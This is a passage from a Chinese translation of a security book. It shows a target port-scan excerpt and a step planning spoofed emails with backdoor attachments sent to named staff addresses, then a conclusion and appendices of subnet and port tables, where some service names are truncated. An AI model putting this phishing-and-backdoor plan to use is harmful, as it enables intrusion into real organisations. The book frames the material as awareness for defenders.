| :--- | :--- | :--- |
| 206.0.139.1 | 23 | Telnet |
| 206.0.139.1 | 161 | Admin |
| 206.0.139.8 | 7 | Echo |
| 206.0.139.8 | 11 | Sysstat |
| 206.0.139.8 | 15 | Netstat |
| 206.0.139.8 | 19 | Chargen |
| 206.0.139.8 | 21 | FTP |
| 206.0.139.8 | 23 | Telnet |
| 206.0.139.8 | 25 | SMTP |
| 206.0.139.8 | 80 | HTTP |
| 206.0.139.8 | 110 | POP3 |
| 206.0.139.8 | 111 | Portmap |
| 206.0.139.10 | 21 | FTP |
| 206.0.139.10 | 23 | Telnet |
| 206.0.139.10 | 80 | HTTP |
| 206.0.139.11 | 25 | SMTP |
| 206.0.139.11 | 110 | POP3 |
| 206.0.139.30 | 21 | FTP |
| 206.0.139.30 | 80 | HTTP |
| 206.0.139.89 | 7 | Echo |
| 206.0.139.89 | 11 | Sysstat |
| 206.0.139.89 | 21 | FTP |
| 206.0.139.89 | 23 | Telnet |
| 206.0.139.89 | 25 | SMTP |
| 206.0.139.89 | 80 | HTTP |
| 206.0.139.89 | 110 | POP3 |
| 206.0.139.89 | 111 | Portmap |

**图 12.38** 扫描摘录。

- hostmaster@xyzinc.net
- pr@xyzinc.net
- mtapel@xyzinc.net
- kflippel@xyzinc.net

我们将向每个这些地址发送 Windows 和 UNIX 后门工具包附件，即使后续两个电子邮件地址毫无疑问属于 UNIX 学徒，这是根据先前的端口扫描结果确定的。我们将伪造这些消息，主题例如“域名更新实用程序”，来自他们的上游提供商，和/或“新闻资料发布”，来自一家有声望的公共关系公司，例如。记住，只要有一个用户执行了伪造的后门附件即可。

## 步骤 4：黑客攻击

在尝试使用 TigerSuite 渗透器或之前章节中的黑客攻击之前，最好练习使用 TigerSim 虚拟服务器模拟器，以及 TigerSuite 系统状态监视器（见图 12.39）。结合起来，这些将确保正确的系统资源使用和 TigerBox 的最佳使用，并有助于成功地进行渗透尝试。

## 结论

网络安全话题目前正在媒体上受到大量关注，特别是由于 CIA、FBI 和白宫都已被成功黑客攻击。最近的研究表明，每次网络入侵事件给美国企业造成的损失高达数十万美元。这一切意味着什么？

即使对于非技术观察者来说，也显而易见，如果政府机构可以被黑客攻击，那么在企业环境中网络入侵的可能性是非常真实的。虽然保护企业所需的可用信息是存在的，但很少人理解它；而且，除了拥有雄厚资金的大型企业外，很少有人能负担得起聘请计算机安全专家和安全审计员来检查（并双重检查）以绝对确保其数据安全的费用。在这一领域的需求知识和紧迫性至关重要。毫无疑问，网络管理员和企业信息主管必须更好地 understanding 用于未经授权访问公司网络的技术、技术和工具。阻止这些入侵者的关键在于对其环境的彻底了解。

正如本书引言中所述，本书是为上述那些管理员以及其他 IT 专业人员撰写的。本书的目标是为这些受众提供对网络通信和安全的扎实理解，不仅是为了揭示黑客的秘密，而是为理解安全威胁的特征奠定基础。

本书的主要重点是提高意识。网络黑客是日常生活中不能再被忽视或敷衍处理的现象。太多网络管理员正经历着他们无法解释的网络异常。服务器崩溃、邮件丢失、数据丢失、病毒入侵以及其他网络问题提出了未得到解答的问题，并导致大量的资源小时用于修复。网络停机是每个组织都想避免的事件。

此类事件的一个原因是网络黑客攻击。公司如何防止这种访问？健全、计划良好的网络安全政策和互补工具是答案。不幸的是，许多公司没有实施此类政策的知识、资源或参考资料。为了满足这一需求，本书还通过概述用于入侵私人或公共网络的已知技术进步，探索了一种动态的网络安全方法。

在此关头，你无疑渴望进入下一阶段，即通过成为安全天才来防御弱点渗透。通过继续阅读本书的配套读物《拒绝黑客攻击》，你将实现这一目标以及更多。那里见。


## 附录 A
### IP 参考表和子网划分图表

表 A.1–A.4 中的 IP 参考表和子网划分图表可用于快速获取统计数据和计算值。通过子网掩码位数可以迅速获取子网号数和主机数。为方便起见，主要的 IP 地址类别已进行归类。

**表 A.1 IP 地址类别**

| 类别 | 首个八位位组或系列 | 网络与主机的八位位组 | 网络掩码二进制 |
| :--- | :--- | :--- | :--- |
| A | 1–126 | 网络.主机.主机.主机 | 1111 1111 0000 0000 0000 0000 0000 0000<br>或<br>255.0.0.0 |
| B | 128–191 | 网络.网络.主机.主机 | 1111 1111 1111 1111 0000 0000 0000 0000<br>或<br>255.255.0.0 |
| C | 192–223 | 网络.网络.网络.主机 | 1111 1111 1111 1111 1111 1111 0000 0000<br>或<br>255.255.255.0 |
| D | | 定义为多播操作；不用于常规操作。 | |
| E | | 定义为实验用途；不用于常规操作。 | |

**表 A.2 A 类**

| 位数 | 子网掩码 | 子网数量 | 主机数量 |
| :--- | :--- | :--- | :--- |
| /8 | 255.0.0.0 | 0 | 16777214 |
| /9 | 255.128.0.0 | 2 (0) | 8388606 |
| /10 | 255.192.0.0 | 4 (2) | 4194302 |
| /11 | 255.224.0.0 | 8 (6) | 2097150 |
| /12 | 255.240.0.0 | 16 (14) | 1048574 |
| /13 | 255.248.0.0 | 32 (30) | 524286 |
| /14 | 255.252.0.0 | 64 (62) | 262142 |
| /15 | 255.254.0.0 | 128 (126) | 131070 |
| /16 | 255.255.0.0 | 256 (254) | 65534 |
| /17 | 255.255.128.0 | 512 (510) | 32766 |
| /18 | 255.255.192.0 | 1024 (1022) | 16382 |
| /19 | 255.255.224.0 | 2048 (2046) | 8190 |
| /20 | 255.255.240.0 | 4096 (4094) | 4094 |
| /21 | 255.255.248.0 | 8192 (8190) | 2046 |
| /22 | 255.255.252.0 | 16384 (16382) | 1022 |
| /23 | 255.255.254.0 | 32768 (32766) | 510 |
| /24 | 255.255.255.0 | 65536 (65534) | 254 |
| /25 | 255.255.255.128 | 131072 (131070) | 126 |
| /26 | 255.255.255.192 | 262144 (262142) | 62 |
| /27 | 255.255.255.224 | 524288 (524286) | 30 |
| /28 | 255.255.255.240 | 1048576 (1048574) | 14 |
| /29 | 255.255.255.248 | 2097152 (2097150) | 6 |
| /30 | 255.255.255.252 | 4194304 (4194302) | 2 |

**表 A.3 B 类**

| 位数 | 子网掩码 | 子网数量 | 主机数量 |
| :--- | :--- | :--- | :--- |
| /16 | 255.255.0.0 | 0 | 65534 |
| /17 | 255.255.128.0 | 2 (0) | 32766 |
| /18 | 255.255.192.0 | 4 (2) | 16382 |
| /19 | 255.255.224.0 | 8 (6) | 8190 |
| /20 | 255.255.240.0 | 16 (14) | 4094 |
| /21 | 255.255.248.0 | 32 (30) | 2046 |
| /22 | 255.255.252.0 | 64 (62) | 1022 |
| /23 | 255.255.254.0 | 128 (126) | 510 |
| /24 | 255.255.255.0 | 256 (254) | 254 |
| /25 | 255.255.255.128 | 512 (510) | 126 |
| /26 | 255.255.255.192 | 1024 (1022) | 62 |
| /27 | 255.255.255.224 | 2048 (2046) | 30 |
| /28 | 255.255.255.240 | 4096 (4094) | 14 |
| /29 | 255.255.255.248 | 8192 (8190) | 6 |
| /30 | 255.255.255.252 | 16384 (16382) | 2 |

**表 A.4 C 类**

| 位数 | 子网掩码 | 子网数量 | 主机数量 |
| :--- | :--- | :--- | :--- |
| /24 | 255.255.255.0 | 0 | 254 |
| /25 | 255.255.255.128 | 2 (0) | 126 |
| /26 | 255.255.255.192 | 4 (2) | 62 |
| /27 | 255.255.255.224 | 8 (6) | 30 |
| /28 | 255.255.255.240 | 16 (14) | 14 |
| /29 | 255.255.255.248 | 32 (30) | 6 |
| /30 | 255.255.255.252 | 64 (62) | 2 |

## 附录 B
### 知名端口和服务

为了快速参考知名端口和服务，请使用表 B.1–B.2 中的图表。为了便利和易用，同时列出了 TCP 和 UDP 的端口和服务。这些表格中列出的端口与所有互联网标准化端口监视器、拦截器、防火墙和嗅探器兼容。

**表 B.1 知名 TCP 端口和服务**

| 端口号 | 服务 |
| :--- | :--- |
| 7 | echo |
| 9 | discard |
| 11 | systat |
| 13 | daytime |
| 15 | netstat |
| 17 | qotd |
| 19 | chargen |
| 20 | FTP-Data |
| 21 | FTP |
| 23 | telnet |
| 25 | SMTP |
| 37 | time |
| 42 | name |
| 43 | whois |
| 53 | domain |
| 57 | mtp |
| 77 | rje |
| 79 | finger |
| 80 | http |
| 87 | link |
| 95 | supdup |
| 101 | hostnames |
| 102 | iso-tsap |
| 103 | dictionary |
| 104 | X400-snd |
| 105 | csnet-ns |
| 109 | pop |
| 110 | pop3 |
| 111 | portmap |
| 113 | auth |
| 115 | sftp |
| 117 | path |
| 119 | nntp |
| 139 | nbsession |
| 144 | news |
| 158 | tcprepo |
| 170 | print-srv |
| 175 | vmnet |
| 400 | vmnet0 |
| 512 | exec |
| 513 | login |
| 514 | shell |
| 515 | printer |
| 520 | efs |
| 526 | tempo |
| 530 | courier |
| 531 | conference |
| 532 | netnws |
| 540 | uucp |
| 543 | klogin |
| 544 | kshell |
| 556 | remotefs |
| 600 | garcon |
| 601 | maitrd |
| 602 | busboy |
| 750 | kerberos |
| 751 | kerberos_mast |
| 754 | krb_prop |
| 888 | erlogin |

**表 B.2 知名 UDP 端口和服务**

| 端口号 | 服务 |
| :--- | :--- |
| 7 | echo |
| 9 | discard |
| 13 | daytime |
| 17 | qotd |
| 19 | chargen |
| 37 | time |
| 39 | rlp |
| 42 | name |
| 43 | whois |
| 53 | dns |
| 67 | bootp |
| 69 | tftp |
| 111 | portmap |
| 123 | ntp |
| 137 | nbname |
| 138 | nbdatagram |
| 153 | sgmp |
| 161 | snmp |
| 162 | snmp-trap |
| 315 | load |
| 500 | sytek |
| 512 | biff |
| 513 | who |
| 514 | syslog |
| 515 | printer |
| 517 | talk |
| 518 | ntalk |
| 520 | route |
| 525 | timed |
| 531 | rvd-control |
| 533 | netwall |
| 550 | new-rwho |
| 560 | rmonitor |
| 561 | monitor |
| 700 | acctmaster |
| 701 | acctslave |
| 702 | acct |
| 703 | acctlogin |
| 704 | acctprinter |
| 705 | acctinfo |
| 706 | actslave2 |
| 707 | acctdisk |
| 750 | kerberos |
| 751 | kerberos_mast |
| 752 | passwd_server |
| 753 | userreg_serve |

## 附录 C
### 全量端口和服务

附录 C 中的表格用于端口和守护进程扫描的交叉参考。作为附录 B 中知名端口和服务的扩展，下表包含了截至端口 1024 的所有全量端口和服务：

| 守护进程 | 端口 | 服务 |
| :--- | :--- | :--- |
| | 0/tcp | 保留 |
| | 0/udp | 保留 |
| tcppmux | 1/tcp | TCP 端口服务复用器 |
| tcppmux | 1/udp | TCP 端口服务复用器 |
| compressnet | 2/tcp | 管理工具 |
| compressnet | 2/udp | 管理工具 |
| compressnet | 3/tcp | 压缩进程 |
| compressnet | 3/udp | 压缩进程 |
| | 4/tcp | 未分配 |
| | 4/udp | 未分配 |
| rje | 5/tcp | 远程作业入口 |
| rje | 5/udp | 远程作业入口 |
| | 6/tcp | 未分配 |
| | 6/udp | 未分配 |
| echo | 7/tcp | 回声 |
| echo | 7/udp | 回声 |
| | 8/tcp | 未分配 |
| | 8/udp | 未分配 |
| discard | 9/tcp | 丢弃 |
| discard | 9/udp | 丢弃 |
| | 10/tcp | 未分配 |
| | 10/udp | 未分配 |
| systat | 11/tcp | 活跃用户 |
| systat | 11/udp | 活跃用户 |
| | 12/tcp | 未分配 |
| | 12/udp | 未分配 |
| daytime | 13/tcp | 时间 (RFC 867) |
| daytime | 13/udp | 时间 (RFC 867) |
| | 14/tcp | 未分配 |
| | 14/udp | 未分配 |
| | 15/tcp | 未分配 [原 netstat] |
| | 15/udp | 未分配 |
| | 16/tcp | 未分配 |
| | 16/udp | 未分配 |
| qotd | 17/tcp | 今日一句 |
| qotd | 17/udp | 今日一句 |
| msp | 18/tcp | 消息发送协议 |
| msp | 18/udp | 消息发送协议 |
| chargen | 19/tcp | 字符生成器 |
| chargen | 19/udp | 字符生成器 |
| ftp-data | 20/tcp | 文件传输 [默认数据] |
| ftp-data | 20/udp | 文件传输 [默认数据] |
| ftp | 21/tcp | 文件传输 [控制] |
| ftp | 21/udp | 文件传输 [控制] |
| ssh | 22/tcp | SSH 远程登录协议 |
| ssh | 22/udp | SSH 远程登录协议 |
| telnet | 23/tcp | Telnet |
| telnet | 23/udp | Telnet |
| | 24/tcp | 任何私有邮件系统 |
| | 24/udp | 任何私有邮件系统 |
| smtp | 25/tcp | 简单邮件传输协议 |
| smtp | 25/udp | 简单邮件传输协议 |
| | 26/tcp | 未分配 |
| | 26/udp | 未分配 |
| nsw-fe | 27/tcp | NSW 用户系统前端 |
| nsw-fe | 27/udp | NSW 用户系统前端 |
| | 28/tcp | 未分配 |
| | 28/udp | 未分配 |
| msg-icp | 29/tcp | MSG ICP |
| msg-icp | 29/udp | MSG ICP |
| | 30/tcp | 未分配 |
| | 30/udp | 未分配 |
| msg-auth | 31/tcp | MSG 认证 |
| msg-auth | 31/udp | MSG 认证 |
| | 32/tcp | 未分配 |
| | 32/udp | 未分配 |
| dsp | 33/tcp | 显示支持协议 |
| dsp | 33/udp | 显示支持协议 |
| | 34/tcp | 未分配 |
| | 34/udp | 未分配 |
| | 35/tcp | 任何私有打印机服务器 |
| | 35/udp | 任何私有打印机服务器 |
| | 36/tcp | 未分配 |
| | 36/udp | 未分配 |
| time | 37/tcp | 时间 |
| time | 37/udp | 时间 |


| DAEMON | 端口 | 服务 |
| --- | --- | --- |
| rap | 38/tcp | 路由访问协议 |
| rap | 38/udp | 路由访问协议 |
| rlp | 39/tcp | 资源位置协议 |
| rlp | 39/udp | 资源位置协议 |
| | 40/tcp | 未分配 |
| | 40/udp | 未分配 |
| graphics | 41/tcp | 图形服务 |
| graphics | 41/udp | 图形服务 |
| name | 42/tcp | 主机名服务器 |
| name | 42/udp | 主机名服务器 |
| nameserver | 42/tcp | 主机名服务器 |
| nameserver | 42/udp | 主机名服务器 |
| nicname | 43/tcp | 查询谁协议 |
| nicname | 43/udp | 查询谁协议 |
| mpm-flags | 44/tcp | MPM 标志协议 |
| mpm-flags | 44/udp | MPM 标志协议 |
| mpm | 45/tcp | 消息处理模块 [接收] |
| mpm | 45/udp | 消息处理模块 [接收] |
| mpm-snd | 46/tcp | MPM [默认发送] |
| mpm-snd | 46/udp | MPM [默认发送] |
| ni-ftp | 47/tcp | NI FTP |
| ni-ftp | 47/udp | NI FTP |
| auditd | 48/tcp | 数字审计守护进程 |
| auditd | 48/udp | 数字审计守护进程 |
| tacacs | 49/tcp | 登录主机协议 (TACACS) |
| tacacs | 49/udp | 登录主机协议 (TACACS) |
| re-mail-ck | 50/tcp | 远程邮件检查协议 |
| re-mail-ck | 50/udp | 远程邮件检查协议 |
| la-maint | 51/tcp | IMP 逻辑地址维护 |
| la-maint | 51/udp | IMP 逻辑地址维护 |
| xns-time | 52/tcp | XNS 时间协议 |
| xns-time | 52/udp | XNS 时间协议 |
| domain | 53/tcp | 域名服务器 |
| domain | 53/udp | 域名服务器 |
| xns-ch | 54/tcp | XNS 清算所 |
| xns-ch | 54/udp | XNS 清算所 |
| isi-gl | 55/tcp | ISI 图形语言 |
| isi-gl | 55/udp | ISI 图形语言 |
| xns-auth | 56/tcp | XNS 认证 |
| xns-auth | 56/udp | XNS 认证 |
| | 57/tcp | 任何私有终端访问 |
| | 57/udp | 任何私有终端访问 |
| xns-mail | 58/tcp | XNS 邮件 |
| xns-mail | 58/udp | XNS 邮件 |
| | 59/tcp | 任何私有文件服务 |
| | 59/udp | 任何私有文件服务 |
| | 60/tcp | 未分配 |
| | 60/udp | 未分配 |
| ni-mail | 61/tcp | NI 邮件 |
| ni-mail | 61/udp | NI 邮件 |
| acaas | 62/tcp | ACA 服务 |
| acaas | 62/udp | ACA 服务 |
| whois++ | 63/tcp | Whois++ |
| whois++ | 63/udp | Whois++ |
| covia | 64/tcp | 通信集成器 (CI) |
| covia | 64/udp | 通信集成器 (CI) |
| tacacs-ds | 65/tcp | TACACS 数据库服务 |
| tacacs-ds | 65/udp | TACACS 数据库服务 |
| sql*net | 66/tcp | Oracle SQL*NET |
| sql*net | 66/udp | Oracle SQL*NET |
| bootps | 67/tcp | 引导协议服务器 |
| bootps | 67/udp | 引导协议服务器 |
| bootpc | 68/tcp | 引导协议客户端 |
| bootpc | 68/udp | 引导协议客户端 |
| tftp | 69/tcp | 简单文件传输协议 |
| tftp | 69/udp | 简单文件传输协议 |
| gopher | 70/tcp | Gopher 协议 |
| gopher | 70/udp | Gopher 协议 |
| netrjs-1 | 71/tcp | 远程作业服务 |
| netrjs-1 | 71/udp | 远程作业服务 |
| netrjs-2 | 72/tcp | 远程作业服务 |
| netrjs-2 | 72/udp | 远程作业服务 |
| netrjs-3 | 73/tcp | 远程作业服务 |
| netrjs-3 | 73/udp | 远程作业服务 |
| netrjs-4 | 74/tcp | 远程作业服务 |
| netrjs-4 | 74/udp | 远程作业服务 |
| | 75/tcp | 任何私有拨出服务 |
| | 75/udp | 任何私有拨出服务 |
| deos | 76/tcp | 分布式外部对象存储 |
| deos | 76/udp | 分布式外部对象存储 |
| | 77/tcp | 任何私有 RJE 服务 |
| | 77/udp | 任何私有 RJE 服务 |
| finger | 79/tcp | Finger 协议 |
| finger | 79/udp | Finger 协议 |
| http | 80/tcp | 万维网 HTTP |
| http | 80/udp | 万维网 HTTP |
| www | 80/tcp | 万维网 HTTP |
| www | 80/udp | 万维网 HTTP |
| www-http | 80/tcp | 万维网 HTTP |
| www-http | 80/udp | 万维网 HTTP |
| hosts2-ns | 81/tcp | HOSTS2 名称服务器 |
| hosts2-ns | 81/udp | HOSTS2 名称服务器 |
| xfer | 82/tcp | XFER 实用工具 |
| xfer | 82/udp | XFER 实用工具 |
| mit-ml-dev | 83/tcp | MIT ML 设备 |
| mit-ml-dev | 83/udp | MIT ML 设备 |
| cet | 84/tcp | 公共跟踪设施 |
| cet | 84/udp | 公共跟踪设施 |
| mit-ml-dev | 85/tcp | MIT ML 设备 |
| mit-ml-dev | 85/udp | MIT ML 设备 |
| mfcobol | 86/tcp | Micro Focus Cobol |
| mfcobol | 86/udp | Micro Focus Cobol |
| | 87/tcp | 任何私有终端链接 |
| | 87/udp | 任何私有终端链接 |
| kerberos | 88/tcp | Kerberos 协议 |
| kerberos | 88/udp | Kerberos 协议 |
| su-mit-tg | 89/tcp | SU/MIT Telnet 网关 |
| su-mit-tg | 89/udp | SU/MIT Telnet 网关 |
| dnsix | 90/tcp | DNSIX 安全属性令牌映射 |
| dnsix | 90/udp | DNSIX 安全属性令牌映射 |
| mit-dov | 91/tcp | MIT Dover 打印假脱机 |
| mit-dov | 91/udp | MIT Dover 打印假脱机 |
| npp | 92/tcp | 网络打印协议 |
| npp | 92/udp | 网络打印协议 |
| dcp | 93/tcp | 设备控制协议 |
| dcp | 93/udp | 设备控制协议 |
| objcall | 94/tcp | Tivoli 对象调度器 |
| objcall | 94/udp | Tivoli 对象调度器 |
| supdup | 95/tcp | Telnet SUPDUP 选项 |
| supdup | 95/udp | Telnet SUPDUP 选项 |
| dixie | 96/tcp | DIXIE 协议规范 |
| dixie | 96/udp | DIXIE 协议规范 |
| swift-rvf | 97/tcp | Swift 远程虚拟文件协议 |
| swift-rvf | 97/udp | Swift 远程虚拟文件协议 |
| tacnews | 98/tcp | TAC 新闻 |
| tacnews | 98/udp | TAC 新闻 |
| metagram | 99/tcp | Metagram 中继 |
| metagram | 99/udp | Metagram 中继 |
| newacct | 100/tcp | [未授权使用] |
| hostname | 101/tcp | NIC 主机名服务器 |
| hostname | 101/udp | NIC 主机名服务器 |
| iso-tsap | 102/tcp | ISO-TSAP 0 类 |
| iso-tsap | 102/udp | ISO-TSAP 0 类 |
| gppitnp | 103/tcp | Genesix 点对点传输网络 |
| gppitnp | 103/udp | Genesix 点对点传输网络 |
| acr-nema | 104/tcp | ACR-NEMA 数字影像与通信 300 |
| acr-nema | 104/udp | ACR-NEMA 数字影像与通信 300 |
| cso | 105/tcp | CCSO 名称服务器协议 |
| cso | 105/udp | CCSO 名称服务器协议 |
| csnet-ns | 105/tcp | 邮箱名称服务器 |
| csnet-ns | 105/udp | 邮箱名称服务器 |
| 3com-tsmux | 106/tcp | 3COM-TSMUX |
| 3com-tsmux | 106/udp | 3COM-TSMUX |
| rtelnet | 107/tcp | 远程 Telnet 服务 |
| rtelnet | 107/udp | 远程 Telnet 服务 |
| snagas | 108/tcp | SNA 网关访问服务器 |
| snagas | 108/udp | SNA 网关访问服务器 |
| pop2 | 109/tcp | 邮局协议 - 版本 2 |
| pop2 | 109/udp | 邮局协议 - 版本 2 |
| pop3 | 110/tcp | 邮局协议 - 版本 3 |
| pop3 | 110/udp | 邮局协议 - 版本 3 |
| sunrpc | 111/tcp | SUN 远程过程调用 |
| sunrpc | 111/udp | SUN 远程过程调用 |
| mcidas | 112/tcp | McIDAS 数据传输协议 |
| mcidas | 112/udp | McIDAS 数据传输协议 |
| ident | 113/tcp | |
| auth | 113/tcp | 认证服务 |
| auth | 113/udp | 认证服务 |
| audionews | 114/tcp | 音频新闻多播 |
| audionews | 114/udp | 音频新闻多播 |
| sftp | 115/tcp | 简单文件传输协议 |
| sftp | 115/udp | 简单文件传输协议 |
| ansanotify | 116/tcp | ANSA REX 通知 |
| ansanotify | 116/udp | ANSA REX 通知 |
| uucp-path | 117/tcp | UUCP 路径服务 |
| uucp-path | 117/udp | UUCP 路径服务 |


| 守护进程 | 端口 | 服务 |
|---|---|---|
| sqlserv | 118/tcp | SQL 服务 |
| sqlserv | 118/udp | SQL 服务 |
| nntp | 119/tcp | 网络新闻传输协议 |
| nntp | 119/udp | 网络新闻传输协议 |
| cfdp | 120/tcp | CFDPTKT |
| cfdp | 120/udp | CFDPTKT |
| erpc | 121/tcp | Encore 快速远程过程调用 |
| erpc | 121/udp | Encore 快速远程过程调用 |
| smakynet | 122/tcp | SMAKEYNET |
| smakynet | 122/udp | SMAKEYNET |
| ntp | 123/tcp | 网络时间协议 |
| ntp | 123/udp | 网络时间协议 |
| ansat | 124/tcp | ANSA REX 交易员 |
| ansat | 124/udp | ANSA REX 交易员 |
| locus-map | 125/tcp | Locus PC 接口网络地图服务器 |
| locus-map | 125/udp | Locus PC 接口网络地图服务器 |
| nxedit | 126/tcp | NXEdit |
| nxedit | 126/udp | NXEdit |
| unitary | 126/tcp | Unisys 单元登录 |
| unitary | 126/udp | Unisys 单元登录 |
| locus-con | 127/tcp | Locus PC 接口通信服务器 |
| locus-con | 127/udp | Locus PC 接口通信服务器 |
| gss-x | 128/tcp | GSS X 许可证验证 |
| gss-x | 128/udp | GSS X 许可证验证 |
| pwdgen | 129/tcp | 密码生成协议 |
| pwdgen | 129/udp | 密码生成协议 |
| cisco-fna | 130/tcp | Cisco FNATIVE |
| cisco-fna | 130/udp | Cisco FNATIVE |
| cisco-t | 131/tcp | Cisco TNATIVE |
| cisco-t | 131/udp | Cisco TNATIVE |
| cisco-s | 132/tcp | Cisco SYSMAINT |
| cisco-s | 132/udp | Cisco SYSMAINT |
| statsrv | 133/tcp | 统计服务 |
| statsrv | 133/udp | 统计服务 |
| ingres-net | 134/tcp | INGRES-NET 服务 |
| ingres-net | 134/udp | INGRES-NET 服务 |
| epmap | 135/tcp | DCE 端点解析 |
| epmap | 135/udp | DCE 端点解析 |
| profile | 136/tcp | PROFILE 命名系统 |
| profile | 136/udp | PROFILE 命名系统 |
| netbios-ns | 137/tcp | NETBIOS 名称服务 |
| netbios-ns | 137/udp | NETBIOS 名称服务 |
| netbios-dgm | 138/tcp | NETBIOS 分组服务 |
| netbios-dgm | 138/udp | NETBIOS 分组服务 |
| netbios-ssn | 139/tcp | NETBIOS 会话服务 |
| netbios-ssn | 139/udp | NETBIOS 会话服务 |
| emfis-data | 140/tcp | EMFIS 数据服务 |
| emfis-data | 140/udp | EMFIS 数据服务 |
| emfis-cntl | 141/tcp | EMFIS 控制服务 |
| emfis-cntl | 141/udp | EMFIS 控制服务 |
| bl-idm | 142/tcp | Britton-Lee IDM |
| bl-idm | 142/udp | Britton-Lee IDM |
| imap | 143/tcp | 互联网消息访问协议 |
| imap | 143/udp | 互联网消息访问协议 |
| uma | 144/tcp | 通用管理架构 |
| uma | 144/udp | 通用管理架构 |
| uaac | 145/tcp | UAAC 协议 |
| uaac | 145/udp | UAAC 协议 |
| iso-tp0 | 146/tcp | ISO-IP0 |
| iso-tp0 | 146/udp | ISO-IP0 |
| iso-ip | 147/tcp | ISO-IP |
| iso-ip | 147/udp | ISO-IP |
| jargon | 148/tcp | Jargon |
| jargon | 148/udp | Jargon |
| aed-512 | 149/tcp | AED 512 仿真服务 |
| aed-512 | 149/udp | AED 512 仿真服务 |
| sql-net | 150/tcp | SQL-NET |
| sql-net | 150/udp | SQL-NET |
| hems | 151/tcp | HEMS |
| hems | 151/udp | HEMS |
| bftp | 152/tcp | 后台文件传输程序 |
| bftp | 152/udp | 后台文件传输程序 |
| sgmp | 153/tcp | SGMP |
| sgmp | 153/udp | SGMP |
| netsc-prod | 154/tcp | NETSC |
| netsc-prod | 154/udp | NETSC |
| netsc-dev | 155/tcp | NETSC |
| netsc-dev | 155/udp | NETSC |
| sqlsrv | 156/tcp | SQL 服务 |
| sqlsrv | 156/udp | SQL 服务 |
| knet-cmp | 157/tcp | KNET/VM 命令/消息协议 |
| knet-cmp | 157/udp | KNET/VM 命令/消息协议 |
| pcmail-srv | 158/tcp | PCMail 服务器 |
| pcmail-srv | 158/udp | PCMail 服务器 |
| nss-routing | 159/tcp | NSS-路由 |
| nss-routing | 159/udp | NSS-路由 |
| sgmp-traps | 160/tcp | SGMP-陷阱 |
| sgmp-traps | 160/udp | SGMP-陷阱 |
| snmp | 161/tcp | SNMP |
| snmp | 161/udp | SNMP |
| snmptrap | 162/tcp | SNMP陷阱 |
| snmptrap | 162/udp | SNMP陷阱 |
| cmip-man | 163/tcp | CMIP/TCP 管理器 |
| cmip-man | 163/udp | CMIP/TCP 管理器 |
| cmip-agent | 164/tcp | CMIP/TCP 代理 |
| cmip-agent | 164/udp | CMIP/TCP 代理 |
| xns-courier | 165/tcp | 施乐 |
| xns-courier | 165/udp | 施乐 |
| s-net | 166/tcp | 天狼星系统 |
| s-net | 166/udp | 天狼星系统 |
| namp | 167/tcp | NAMP |
| namp | 167/udp | NAMP |
| rsvd | 168/tcp | 保留 |
| rsvd | 168/udp | 保留 |
| send | 169/tcp | SEND |
| send | 169/udp | SEND |
| print-srv | 170/tcp | 网络 PostScript |
| print-srv | 170/udp | 网络 PostScript |
| multiplex | 171/tcp | 网络创新多重复用 |
| multiplex | 171/udp | 网络创新多重复用 |
| cl/1 | 172/tcp | 网络创新 CL/1 |
| cl/1 | 172/udp | 网络创新 CL/1 |
| xplex-mux | 173/tcp | Xplex |
| xplex-mux | 173/udp | Xplex |
| mailq | 174/tcp | 邮件队列 |
| mailq | 174/udp | 邮件队列 |
| vmnet | 175/tcp | VMNET |
| vmnet | 175/udp | VMNET |
| genrad-mux | 176/tcp | GENRAD-MUX |
| genrad-mux | 176/udp | GENRAD-MUX |
| xdmcp | 177/tcp | X 显示管理器控制协议 |
| xdmcp | 177/udp | X 显示管理器控制协议 |
| nextstep | 178/tcp | NextStep 窗口服务器 |
| nextstep | 178/udp | NextStep 窗口服务器 |
| bgp | 179/tcp | 边界网关协议 |
| bgp | 179/udp | 边界网关协议 |
| ris | 180/tcp | Intergraph |
| ris | 180/udp | Intergraph |
| unify | 181/tcp | Unify |
| un | 181/udp | Unify |
| audit | 182/tcp | Unisys 审计 SITP |
| aud | 182/udp | Unisys 审计 SITP |
| ocbin | 183/tcp | OCBinder |
| ocbin | 183/udp | OCBinder |
| ocserv | 184/tcp | OCServer |
| ocserv | 184/udp | OCServer |
| remote-kis | 185/tcp | 远程-KIS |
| rem | 185/udp | 远程-KIS |
| kis | 186/tcp | KIS 协议 |
| ki | 186/udp | KIS 协议 |
| aci | 187/tcp | 应用通信接口 |
| ac | 187/udp | 应用通信接口 |
| mumps | 188/tcp | Plus Fives MUMPS |
| mumps | 188/udp | Plus Fives MUMPS |
| qft | 189/tcp | 队列文件传输 |
| qft | 189/udp | 队列文件传输 |
| gacp | 190/tcp | 网关访问控制协议 |
| gacp | 190/udp | 网关访问控制协议 |
| prospero | 191/tcp | Prospero 目录服务 |
| pros | 191/udp | Prospero 目录服务 |
| osu-nms | 192/tcp | OSU 网络监控系统 |
| osu-nm | 192/udp | OSU 网络监控系统 |
| snmp | 193/tcp | Spider 远程监控协议 |
| smp | 193/udp | Spider 远程监控协议 |
| irc | 194/tcp | 互联网中继聊天协议 |
| irc | 194/udp | 互联网中继聊天协议 |
| dn6-nlm-aud | 195/tcp | DNSIX 网络层模块审计 |
| dn6-nlm-aud | 195/udp | DNSIX 网络层模块审计 |
| dn6-smm-red | 196/tcp | DNSIX 会话管理模块审计重定向 |
| dn6-sm | 196/udp | DNSIX 会话管理模块审计重定向 |
| dls | 197/tcp | 目录位置服务 |
| dls | 197/udp | 目录位置服务 |
| dls-mon | 198/tcp | 目录位置服务监控 |
| dls-mo | 198/udp | 目录位置服务监控 |
| smux | 199/tcp | SMUX |
| smux | 199/udp | SMUX |
| src | 200/tcp | IBM 系统资源控制器 |
| src | 200/udp | IBM 系统资源控制器 |
| at-rtmp | 201/tcp | AppleTalk 路由维护 |
| at-rtmp | 201/udp | AppleTalk 路由维护 |
| at-nbp | 202/tcp | AppleTalk 名称绑定 |
| at-nbp | 202/udp | AppleTalk 名称绑定 |
| at-3 | 203/tcp | AppleTalk 未使用 |
| at-3 | 203/udp | AppleTalk 未使用 |
| at-echo | 204/tcp | AppleTalk 回显 |
| at-echo | 204/udp | AppleTalk 回显 |
| at-5 | 205/tcp | AppleTalk 未使用 |
| at-5 | 205/udp | AppleTalk 未使用 |
| at-zis | 206/tcp | AppleTalk 区域信息 |
| at-zis | 206/udp | AppleTalk 区域信息 |
| at-7 | 207/tcp | AppleTalk 未使用 |
| at-7 | 207/udp | AppleTalk 未使用 |
| at-8 | 208/tcp | AppleTalk 未使用 |
| at-8 | 208/udp | AppleTalk 未使用 |
| qmtp | 209/tcp | 快速邮件传输协议 |
